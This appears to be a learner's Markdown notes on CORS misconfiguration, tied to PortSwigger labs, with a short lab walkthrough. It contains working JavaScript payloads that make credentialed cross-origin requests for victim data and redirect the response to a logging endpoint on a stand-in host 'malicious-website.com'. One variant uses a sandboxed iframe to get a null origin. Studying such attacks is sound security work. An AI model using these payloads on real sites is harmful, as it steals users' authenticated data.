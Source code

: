 # CORS Notes

[Portswigger](https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing)

## Methodology

Example script to steal info from a user

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

Using that script in an iframe for a whitelisted null in the origin value:

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```


## Labs Walkthrough

### Basic Origin Reflection Attack

- log into application and review the request to /accountDetails
- notice the usage of the `Access-Control-Allow-Origin` header, suggesting the usage of CORS
- ![image](https://github.com/user-attachments/assets/88d4be40-617a-442d-b257-20e37916e5e5).
- create the request by using the /accountDetails as the path for sensitive data and set location to just /log

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0aab0073041f4fa4815f39dc00ce00a4.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='/log?key='+this.responseText;
};
</script>
```

- 






